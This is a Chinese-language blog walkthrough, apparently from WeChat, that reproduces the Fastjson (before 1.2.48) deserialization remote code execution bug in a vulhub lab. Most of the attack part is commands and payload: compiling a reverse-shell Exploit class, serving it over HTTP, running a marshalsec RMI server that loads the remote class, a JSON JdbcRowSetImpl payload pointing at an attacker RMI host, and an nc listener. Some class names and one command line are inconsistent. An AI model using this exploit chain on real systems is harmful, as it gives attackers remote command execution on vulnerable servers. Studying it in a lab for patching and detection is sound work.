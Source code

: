> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/HDBT2y7HrjcswxGM20hcWA)

**漏洞原理**  

Fastjson 是阿里巴巴公司开源的一款 json 解析器，其性能优越，被广泛应用于各大厂商的 Java 项目中。fastjson 于 1.2.24 版本后增加了反序列化白名单，而在 1.2.48 以前的版本中，攻击者可以利用特殊构造的 json 字符串绕过白名单检测，成功执行任意命令。

**影响环境**

Fastjson 1.2.48 以前版本

**漏洞复现**

环境使用的是 docker+vulhub 的环境搭建的

步骤：

```
1.Exploit.exp需要进行javac编译
2.所有用的工具和编译后的包要在同一目录，然后在该目录启动http服务和启动一个RMI服务器，监听9999端。其中RMI服务marshalsec.jndi.RMIRefServer 是需要jdk1.8版本的。(其中Exp下载地址里边已经有编译好的marshalsec-0.0.3-SNAPSHOT-all.jar，就不用下载meavn对marshalsec进行打包，能省去很长的时间)
3.发送构造好的请求包，nc监听得到反弹shell
```

Exp 下载地址 ：  

```
https://github.com/CaijiOrz/fastjson-1.2.47-RCE
```

下载好会有三个文件，其中 Exploit.java 只是一段反弹 shell 的代码，需要修改为攻击机的 ip 和端口

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB2RavzFzLf5tjyy6WTBlPsG3k9yOYbbzRBZqYPyicicwRgibzSGl02UqN5iauaYMR0QMoZbwDr5gCMnw/640?wx_fmt=png)

然后来到 jdk 的 bin 目录下使用 javac 进行编译，编译成 class 文件，得到 Exploit.class

```
javac Exploit.java
```

把编译好的 Exploit.class 文件和 marshalsec-0.0.3-SNAPSHOT-all.jar 放置同一个目录下，然后发送至攻击机，然后在攻击机的 Exploit.class 目录下使用 python 开启站点

```
python -m SimpleHTTPServer  1111
yout-ip/TouchFile.class        //访问站点
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB2RavzFzLf5tjyy6WTBlPsUicjwibGmuFogAP7MCtMnPmXTITC9c2KWF7G4I41bfmhYf9lPHZhCzcQ/640?wx_fmt=png)

然后借助 marshalsec 项目，启动一个 RMI 服务器，监听 9999 端口，并制定加载远程类 TouchFile.class  
安装 marshalsec，同时 mvn 也是需要安装的

```
安装mvn
官网下载压缩包 http://maven.apache.org/download.cgi
配置环境变量
vi /etc/profile
export MAVEN_HOME=/var/local/apache-maven-3.6.2
export MAVEN_HOME
export PATH=$PATH:$MAVEN_HOME/bin
编辑之后使用source /etc/profile命令使改动生效。
在任意路径下执行mvn -version验证命令是否有效
```

安装和使用 marshalsec

```
git clone https://github.com/mbechler/marshalsec.git 
cd marshalsec 
mvn clean package -DskipTests
```

装好 mvn 后运行 (若使用 mvn 时提示命令找不到，可以使用 source /etc/profile 更新一下环境变量)

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://your-ip:1234/#TouchFile" 9999
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB2RavzFzLf5tjyy6WTBlPszicZgQc9RXRLR3VopuZdicIgT4f32WhSoa2LnQEaPbP5w669DiaicK8ncg/640?wx_fmt=png)

构造 exp 请求包，并多开端口进行 nc 监听 8888

```
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.10.144:9999/Exploit",
        "autoCommit":true
    }
}
```

构造好的请求包发送如下，注意 Content-type 格式要 json，并且是 post 请求。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB2RavzFzLf5tjyy6WTBlPsgzK93fQibtLicX5jpLyMkGwjiagZy56xeBPz9kVkAJIkg8lianx230fVGA/640?wx_fmt=png)

发送请求包后可以看到向指定 ip 加载远程类 TouchFile.class 

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB2RavzFzLf5tjyy6WTBlPsObC7CaRqcKCXAqUKaVQ9ziaqicibH2qeAu2K9ro8eakvP0wvIZgturxHw/640?wx_fmt=png)

然后攻击机就能收到反弹回来的 shell 了

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDB2RavzFzLf5tjyy6WTBlPsN4pMnZj40t6G9zmSeyDeFqpUibuibawqxhiaruELkkoOKR2xXWNePUfibQ/640?wx_fmt=png)